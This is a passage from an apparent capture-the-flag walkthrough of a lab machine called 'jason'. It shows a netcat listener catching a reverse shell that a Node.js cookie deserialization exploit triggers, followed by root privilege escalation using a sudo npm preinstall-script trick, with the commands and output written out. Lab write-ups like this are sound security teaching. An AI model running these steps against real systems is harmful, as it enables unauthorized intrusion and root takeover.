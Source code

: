 Open a netcat listener and click `Forward` and we get a reverse shell as `dylan`


```shell
geobour98@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.200.50] from (UNKNOWN) [10.10.121.122] 53470
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
dylan@jason:/opt/webapp$ whoami
whoami
dylan
dylan@jason:/opt/webapp$
```
The server performed deserialization of the `Cookie` header so the reverse shell was executed. The payload used can be found in this great article: <a href="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/" target="_blank">Exploiting Node.js deserialization bug for Remote Code Execution</a>, which is about `Node.js` deserialization as in our case.

We can also read the `user.txt` flag:


```shell
dylan@jason:/opt/webapp$ cd /home/dylan
cd /home/dylan
dylan@jason:~$ cat user.txt
cat user.txt
[REDACTED]
```

## Privilege Escalation


After executing the command: `sudo -l` we see that we can execute `npm` without being asked for root password. 


```shell
dylan@jason:~$ sudo -l
sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

A great exploit for this can be found on: <a href="https://gtfobins.github.io/gtfobins/npm/#sudo" target="_blank">GTFObins npm</a>


```shell
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i
sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.DaaEyPR9DZ
> /bin/sh

# bash
bash
root@jason:/tmp/tmp.DaaEyPR9DZ# id
id
uid=0(root) gid=0(root) groups=0(root)
root@jason:/tmp/tmp.DaaEyPR9DZ# cd /root
cd /root
root@jason:~# cat root.txt
```